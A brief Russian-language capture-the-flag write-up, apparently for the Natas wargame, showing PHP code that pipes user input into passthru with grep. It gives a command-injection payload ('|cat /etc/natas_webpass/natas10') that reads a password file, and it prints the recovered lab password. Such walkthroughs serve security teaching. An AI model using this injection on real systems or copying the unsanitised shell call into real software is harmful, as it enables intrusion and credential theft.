 в коде было следующее

```php
if(array_key_exists("needle", $_REQUEST)) {    
	$key = $_REQUEST["needle"];  
}  
  
if($key != "") {    
	passthru("grep -i $key dictionary.txt");  
}
```
тут можно заметить, что идет "тупое" выполнение того, что ему подсовывает пользователь
если подсунуть
```bash
|cat /etc/natas_webpass/natas10
```
то grep -i передаст в cat пустое поле, а сам cat прочтет файл с паролем (и бесполезный txt) и выведет нам
пароль: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu




